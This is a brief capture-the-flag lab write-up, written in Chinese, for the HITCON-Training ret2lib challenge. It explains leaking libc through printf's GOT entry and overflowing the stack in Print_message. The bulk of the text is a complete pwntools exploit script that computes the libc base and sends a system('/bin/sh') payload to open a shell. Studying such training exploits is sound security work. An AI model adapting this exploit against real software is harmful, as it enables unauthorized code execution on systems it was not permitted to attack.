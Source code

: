 # week1
## hitcon-training -- lab4(ret2lib)
没开保护

<img width="671" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/fcc194f1-bd6f-4239-a817-cd4c2333c96c">

有个任意地址泄漏

<img width="470" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/735ed291-3416-4df4-97f9-5461758fd114">

可以通过got表地址泄漏libc

<img width="496" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/e4a4b58a-22ab-4b9f-824b-79841f867ce4">

接下来的函数Print_message存在栈溢出 直接利用泄漏的libc打system

<img width="374" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/90f6f979-325c-4da5-81bf-bc73dd5f8747">

### exp_ret2lib.py

```python
from pwn import *
p = process("./ret2lib")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

printf_got = '0x804a010'
printf_got_10 = int(printf_got, 16)

ru('(in dec) :')
sl(str(printf_got_10))


ru('address : ')
libc_printf = int(ru('\n').strip(),16)
log.info("libc_printf ==> {}".format(hex(libc_printf)))

off_printf = 0x502b0
off_binsh = 0x18e363
off_system = 0x41780
libc_base = libc_printf - off_printf
log.info("libc_base ==> {}".format(hex(libc_base)))

libc_system = libc_base + off_system
libc_binsh = libc_base + off_binsh

off = 60

payload = b'a' * off 
payload+= p32(libc_system)
payload+= p32(0xdeadbeef)
payload+= p32(libc_binsh)

# raw_input("Ther")
ru('me :')
sl(payload)

shell()

```
